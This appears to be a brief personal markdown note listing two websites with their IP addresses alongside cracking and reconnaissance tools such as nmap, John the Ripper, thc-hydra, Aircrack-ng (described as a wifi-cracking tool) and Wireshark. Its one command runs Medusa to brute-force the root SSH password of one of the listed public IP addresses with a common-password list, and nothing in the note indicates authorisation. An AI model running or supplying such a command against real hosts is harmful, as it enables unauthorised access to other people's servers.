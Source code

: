 - www.semorn.com  47.94.101.42
- jjlin.net 43.242.131.37

- nmap 
- john the ripper https://www.openwall.com/john/
- thc-hydra

```
./medusa -u root -h 47.94.101.42 -P 10k-most-common.txt -M ssh -n 22
```
- Aircrack-ng wify破解工具 
- Wireshark 抓包